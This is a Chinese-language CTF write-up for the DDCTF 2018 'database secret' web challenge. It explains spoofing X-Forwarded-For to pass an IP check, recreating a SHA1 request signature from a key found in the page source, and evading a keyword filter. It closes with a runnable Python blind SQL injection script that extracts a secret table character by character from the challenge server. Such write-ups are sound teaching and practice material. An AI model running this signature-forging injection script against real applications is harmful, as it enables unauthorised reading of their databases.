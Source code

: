 ```yaml
---
layout:     post
title:      "DDCTF —— 数据库的秘密"
subtitle:   ""
date:       2018-04-24 13:14:00
author:     "kuron3k0"
header-img: "img/post-bg-rwd.jpg"
tags:
    - SQL-Injection
    - CTF
    - WEB
---
```



打开题目，提示特定ip才能连接
![](/img/in-post/post-ddctf-web/ip.png)
<br>

加上`X-Forwarded-For`
![](/img/in-post/post-ddctf-web/xff.png)
<br>

得到如下页面，很明显是查询中的注入问题
![](/img/in-post/post-ddctf-web/origin.png)
<br>    

但是发现url参数中带有sig，在burpsuite中随意修改post参数会返回`sig error`
![](/img/in-post/post-ddctf-web/sig_error.png)
<br>

F12查看search按钮触发的js是`submitt`函数
![](/img/in-post/post-ddctf-web/submit.png)
<br>

具体相关代码如下：<br>

```javascript

function submitt(){
	obj['id']=document.getElementById('id').value;
	obj['title']=document.getElementById('title').value;
	obj['author']=document.getElementById('author').value;
	obj['date']=document.getElementById('date').value;
	var sign=signGenerate(obj,key);
	document.getElementById('queryForm').action="index.php?sig="+sign+"&time="+obj.time;
	document.getElementById('queryForm').submit()
}

function signGenerate(obj,key){
	var str0='';
	for(i in obj){
		if(i!='sign'){
			str1='';
			str1=i+'='+obj[i];
			str0+=str1
		}
	}
	return hex_math_enc(str0+key)
};
```
注：生成签名的`key`可在页面源码中找到
![](/img/in-post/post-ddctf-web/key.png)
<br>

跟着进入`hex_math_enc`函数，是在`static/math.js`中
![](/img/in-post/post-ddctf-web/sign.png)
<br>

……这让人头皮发麻的函数，有两种处理方法：

- 用python实现再进行注入（不可能的这辈子都不可能的，依稀记得之前做过一条调试一万多行js的题目= =）
- 在本地用js生成sig，用脚本访问本地页面先把sig拿到再进行注入，但是python的request又不会跑js代码，所以只能用`PhantomJS+Selenium`
<br>

但是觉得不太可能啊，怎么可能这么麻烦，再回头看看js文件，发现如下信息：
![](/img/in-post/post-ddctf-web/sha1.png)
<br>

原来是`sha1`……论看清题目的重要性……<br>
然后就是常规注入了，题目过滤了一些关键字，如`or`，换成`||`即可。<br>
还有在读数据表的时候，发现好像过滤了`database(`……，试了在`database`两边加反引号、在后面加空格、加注释，都失败了，所以只能limit一个一个读……不过根据数据库的特性我们自己的表都是跟在系统表后面，所以倒着来读即可，时间上可以接受。

附脚本：
```python
import requests
import re
import hashlib
import time

base_url = 'http://116.85.43.88:8080/PEQFGTUTQMZWCZGK/dfe3ia/index.php'

header = {
    'X-Forwarded-For':'123.232.23.245'
}

def getLength(index):
    for i in range(0,1000):
        data = {
            'id':'',
            'title':'',
            'author':'admin\'||if(length((select secvalue from ctf_key1 limit {},1))>{},1,0)#'.format(index,i),
            'date':''
        }
        t = str(int(time.time()))
        s = "id={}title={}author={}date={}time={}adrefkfweodfsdpiru".format(
            data['id'],
            data['title'],
            data['author'],
            data['date'],
            t
        )
        sha1hash = hashlib.sha1(s).hexdigest()
        res = requests.post(url=base_url+"?sig={}&time={}".format(sha1hash,t),data=data,headers=header)
        if 'test<' not in res.text.decode('utf-8'):
            return i
        else:
            print i


def getContent(index,length):
    session = requests.session()
    ans = ''
    for i in range(1,length+1):
        for st in range(0,256):
            data = {
                'id':'',
                'title':'',
                'author':'admin\'||if(ascii(mid((select secvalue from ctf_key1 limit {},1),{},1))>{},1,0)#'.format(index,i,st),
                'date':''
            }
            t = str(int(time.time()))
            s = "id={}title={}author={}date={}time={}adrefkfweodfsdpiru".format(
                data['id'],
                data['title'],
                data['author'],
                data['date'],
                t
            )
            sha1hash = hashlib.sha1(s).hexdigest()
            res = session.post(url=base_url+"?sig={}&time={}".format(sha1hash,t),data=data,headers=header)
            if 'test<' not in res.text.decode('utf-8'):
                ans+=chr(int(st))
                print ans
                break

for i in range(0,30):
    LENGTH = getLength(i)
    getContent(i,LENGTH)



```
